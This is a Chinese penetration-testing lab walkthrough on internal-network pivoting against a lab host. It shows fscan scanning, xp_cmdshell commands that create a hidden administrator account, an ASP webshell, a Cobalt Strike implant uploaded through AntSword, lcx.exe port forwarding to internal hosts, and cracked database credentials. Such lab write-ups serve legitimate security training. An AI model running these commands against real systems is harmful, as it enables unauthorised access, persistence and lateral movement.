


## 内网渗透:端口转发

靶场地址

http://192.168.179.75/1.asp

通过fscan扫描得到mssql账号秘密，Navicat链接登录数据库，whoami查看，当前权限为system，创建账号gd13$，密码admin@123，添加到administrator组，通过该账号远程登录，在www目录下写入一句话木马asp，打开kali蚁剑链接

fscan 扫描目标ip  

`/home/kali/cs4.2/tools/fscan_amd64 -h 192.168.179.75`

`exec('xp_cmdshell "whoami"')`

添加用户 gd13$  admin@123 

`exec('xp_cmdshell "net user gd13$ admin@123 /add"')`

`exec('xp_cmdshell "net localgroup administrators gd13$ /add"')`

`exec('xp_cmdshell "net localgroup administrators"')`

查看user表 里面有管理员账户名密码，虽然解密成功但是，禁止远程登录

admin 	qwer1234!@#$

bao  bao123

kali中打开cs 链接vps服务器

生成Windows版的远控程序

使用蚁剑上传远控程序

双击远控程序，在cs中查看

`shell C:\www\lcx.exe -tran 3333 192.168.1.107 8080`

转发成功，访问75的3333端口，107的8080端口转发成功

use18

`shell C:\www\lcx.exe -tran 4444 192.168.22.187 4444`

设置用户名和密码Tomcat

